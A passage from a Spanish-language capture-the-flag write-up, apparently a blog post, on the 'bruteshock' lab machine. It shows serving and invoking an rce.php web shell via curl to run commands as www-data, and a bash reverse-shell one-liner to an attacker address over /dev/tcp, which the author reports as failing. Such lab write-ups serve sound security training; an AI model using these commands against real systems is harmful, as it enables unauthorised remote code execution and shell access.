 En nuestro servidor HTTP deberíamos ver un `GET` a nuestro archivo `rce.php`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [29/Mar/2025 10:20:42] "GET /rce.php HTTP/1.1" 200 -
~~~


## Shellshock - RCE

Ahora mediante la web accedemos al archivo `rce.php`, podemos hacerlo o bien desde la web o mediante `curl`

~~~ bash
curl -X GET 'http://bruteshock.dl/pruebasUltraSecretas/rce.php?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Así se vería si hacemos la solicitud mediante el navegador

![image-center](/assets/images/posts/bruteshock-rce-web.png){: .align-center}


## Shell as `www-data` (Failed)

Podemos intentar enviarnos una `shell` mediante este parámetro, para ello modificaremos el siguiente payload

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

![image-center](/assets/images/posts/bruteshock-rce-web-2.png){: .align-center}

Nota que cambié el caracter `&` por `%26` para que pueda ejecutarse correctamente en el servidor

![image-center](/assets/images/posts/bruteshock-revshell-fail.png){: .align-center}
